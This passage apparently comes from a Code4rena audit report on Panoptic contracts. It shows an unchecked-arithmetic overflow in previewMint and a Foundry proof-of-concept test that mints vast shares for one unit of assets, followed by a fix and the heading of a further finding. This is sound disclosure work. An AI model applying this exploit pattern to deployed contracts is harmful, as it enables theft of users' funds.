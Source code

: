     function previewMint(uint shares) public view returns (uint assets) {
     unchecked {
     assets = Math.mulDivRoundingUp(
     shares * DECIMALS, totalAssets(), totalSupply * (DECIMALS - COMMISSION_FEE)
     );
     }
    }

    function mint(uint shares, address receiver) external returns (uint assets) {
     assets = previewMint(shares);
     if (assets > type(uint104).max) revert Errors.DepositTooLarge();
     ...
    }

Insert the following snippet to ColalteralTracker.t.sol for coded PoC:

    function test_poc1(uint256 x) public {
     _initWorld(x);
     _grantTokens(Bob);

     vm.startPrank(Bob);

     uint shares = type(uint).max / 10000 + 1;
     IERC20Partial(token0).approve(address(collateralToken0), type(uint256).max);
     uint256 returnedAssets0 = collateralToken0.mint(shares, Bob);

     assertEq(shares, collateralToken0.balanceOf(Bob));
     assertEq(returnedAssets0, 1);
    }

### Recommended Mitigation Steps

Remove unchecked block.

    function maxMint(address) external view returns (uint maxShares) {
     return (convertToShares(type(uint104).max) * DECIMALS) / (DECIMALS + COMMISSION_FEE);
    }

### Assessed type

Under/Overflow

**[dyedm1 (Panoptic) confirmed](https://github.com/code-423n4/2024-04-panoptic-findings/issues/438#event-12628628301)**



***

 
# Medium Risk Findings (9)
## [[M-01] `PanopticFactory` uses spot price when deploying new pools, resulting in liquidity manipulation when minting](https://github.com/code-423n4/2024-04-panoptic-findings/issues/537)
*Submitted by [DadeKuma](https://github.com/code-423n4/2024-04-panoptic-findings/issues/537), also found by [sammy](https://github.com/code-423n4/2024-04-panoptic-findings/issues/547), [Dup1337](https://github.com/code-423n4/2024-04-panoptic-findings/issues/486), [Bauchibred](https://github.com/code-423n4/2024-04-panoptic-findings/issues/351), [jesjupyter](https://github.com/code-423n4/2024-04-panoptic-findings/issues/204), and [Vancelot](https://github.com/code-423n4/2024-04-panoptic-findings/issues/30)*

